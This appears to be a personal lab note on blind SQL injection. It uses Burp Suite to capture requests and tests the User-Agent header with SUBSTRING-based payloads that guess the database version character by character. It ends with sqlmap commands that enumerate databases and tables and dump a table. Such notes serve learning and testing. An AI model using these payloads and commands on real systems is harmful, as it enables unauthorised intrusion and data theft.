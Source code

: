 ```yaml
---
title: Example 2 - Substring
updated: 2023-09-29 10:45:53Z
created: 2023-09-29 08:24:39Z
latitude: -35.28093680
longitude: 149.13000920
altitude: 0.0000
---
```


## BurpSuite:

![8ba98a3fd85bba97f334a302d9cfa22b.png](../../_resources/8ba98a3fd85bba97f334a302d9cfa22b.png)
URL-Encode the payload:
![aada12aac018e28fa7725cbc87cf60d0.png](../../_resources/aada12aac018e28fa7725cbc87cf60d0.png)
Copy payload to file **payload.txt** and check with **sqlmap**:
![1e981a65bbccc730f9cca21b77c791ab.png](../../_resources/1e981a65bbccc730f9cca21b77c791ab.png)

`sqlmap -r payload.txt`

**Check next payload**:
![e0e65e83a84cc1cd97398a1459d215fe.png](../../_resources/e0e65e83a84cc1cd97398a1459d215fe.png)

![381429ab9164519c93e001a26522e641.png](../../_resources/381429ab9164519c93e001a26522e641.png)

**Think OUTSIDE THE BOX!:**
Maybe it's processing User-Agent?
![fc8f56ee85db67c1c446218033a7d008.png](../../_resources/fc8f56ee85db67c1c446218033a7d008.png)


Now try to find version 1 step at a time
***SUBSTRING(string, start, length)***

`' and substring((Version()), 1, 1) = '7'#`
if no match, try next number
`' and substring((Version()), 1, 1) = '8'#`
if match, move to next integer 
`' and substring((Version()), 2, 1) = '.'#`
`' and substring((Version()), 3, 1) = '0'#`
eg **8.0.1**
`' and substring((Version()), 1, 5) = '8.0.1'#`
![57b72d12e86c66b492e728d6843cd2e6.png](../../_resources/57b72d12e86c66b492e728d6843cd2e6.png)

## sqlmap
Use to check for injection vulnerabilities and dump sql data

1. Find list of databases:
`sqlmap -r payload.txt --level=2 -dbs`  
2. Find tables in selected database
`sqlmap -r payload.txt --level=2 -D <database> -tables` 
3. Scan selected table
`sqlmap -r payload.txt --level=2 -D <database> -T <table> -a`


